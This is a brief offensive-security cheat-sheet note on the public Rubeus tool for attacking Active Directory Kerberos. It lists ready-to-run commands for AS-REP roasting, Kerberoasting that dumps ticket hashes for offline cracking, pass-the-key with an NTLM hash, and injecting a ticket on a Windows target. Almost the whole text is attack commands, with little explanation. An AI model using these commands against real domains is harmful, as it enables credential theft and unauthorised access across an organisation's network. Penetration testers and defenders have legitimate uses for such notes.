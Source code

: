 ```yaml
---
category: Uncategorized
tags: []
---
```

#post-exploitation #credential-dumping #ticket-dumping #active-directory
# Source

- https://github.com/GhostPack/Rubeus

Review the opsec notes before compiling the program in visual studio. 

## ASREProasting:

chek for users in the current domain:

- Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

## Kerberoasting:

- Rubeus.exe kerberoast /outfile:<output_TGSs_file>

- Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 

## Pass the key (PTK):

- .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt


## Using the ticket on a Windows target: 

- Rubeus.exe ptt /ticket:<ticket_kirbi_file>